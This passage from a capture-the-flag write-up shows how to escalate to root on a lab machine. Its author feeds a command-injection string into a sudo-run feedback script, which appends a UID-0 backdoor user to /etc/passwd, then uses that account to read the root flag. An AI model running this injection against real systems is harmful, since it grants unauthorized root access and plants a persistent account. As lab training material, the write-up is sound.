 Back on the attacking machine, we will generate a hashed password using the [mkpasswd](https://linux.die.net/man/1/mkpasswd) command:

```sh
mkpasswd -m md5crypt -s
```

![b00693be9a3e4ffb4a6a4191f19fa7f4.png](/resources/72e27bd41d434449adfb5d34ab0648ec.png)

Next, run the script with `sudo`:

```sh
sudo /opt/NewComponent/feedback.sh
```

Then, enter the following command when prompted for feedback. This will add a new user, `notroot` with the hashed version of our password and set the UID to `0` which will give us root privileges:

```sh
'notroot:$1$m.fGBmAs$fQu0PlSnn5cT9EYZykAsM1:0:0:notroot:/root:/bin/bash' >> /etc/passwd
```

![5413629b7a29f5cece6744bb50c3e34e.png](/resources/7f62415daafb4303a949693e1e6fdc1b.png)

Now, we can switch over to our new account and enter the password when prompted:

```sh
su notroot
```

![fd360e0b300eb7bf839203346d679624.png](/resources/d2393538db18402fb8f39b3338bd370a.png)

We can find the root flag in `/root/root.txt`:

```sh
cd /root
ls -lah
cat root.txt
```

![331fd6b37ae4ee900c2b7ddf24502526.png](/resources/bc06d956022444aa8167da32f87e8e4d.png)
